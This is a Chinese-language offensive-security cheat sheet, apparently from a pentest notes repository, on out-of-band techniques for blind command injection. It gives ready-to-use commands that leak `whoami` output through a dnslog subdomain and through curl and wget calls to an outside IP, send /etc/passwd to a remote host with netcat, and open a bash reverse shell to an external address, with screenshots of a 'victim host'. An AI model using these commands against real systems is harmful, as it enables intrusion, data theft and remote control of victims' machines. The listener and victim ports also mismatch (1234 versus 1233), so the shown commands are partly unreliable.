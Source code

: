 ## 一、外部通信技巧

### 1、dnslog

```
1、使用反引号whoami得到的用户名再，子域名，再使用 icmp 协议访问 ping 域名
ping -c 4 127.0.0.1| ping `whoami`.smm2m6.dnslog.cn

2、利用日志测试无回显
利用 HTTP 协议，访问 WEB 中间件时，iis 或者 apache 或者小型服务，都存在访问日志。在 vps 上开启 python 的小型服务器。再用 curl 协议访问远程服务器 ip 的 80 端口，再到 vps 的终端查看记录
使用 curl 命令ping -c 4 ||curl http://1.116.203.228/?`whoami`
使用 wget 命令ping -c 4 ||wget http://1.116.203.228/?`whoami`

```

### 2、netcat

> 如果目标系统存在有 netcat 在 linux系统会存在。使用命令读取文件传递到远程服务器上

#### shell

```
目标服务器 
nc -l 80 < /etc/passwd 
本机执行命令 
nc 1.116.203.228 80 > passwd
```



#### 反弹shell

```
反弹shell
本机监听
nc -lvnp 1234
受害主机
bash -i >& /dev/tcp/124.223.192.250/1233 0>&1
```

##### 演示

###### 主机 监听1234端口

![image-20211227175503202](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNgy1gxsjizvkdkj30me022glt.jpg)

###### 受害主机 发送bash去 主机 1234端口

![image-20211227175543708](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNgy1gxsjjqyu8hj30mw022q36.jpg)

###### 结果

![image-20211227175651322](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNgy1gxsjkvjlalj30n406ojrq.jpg)
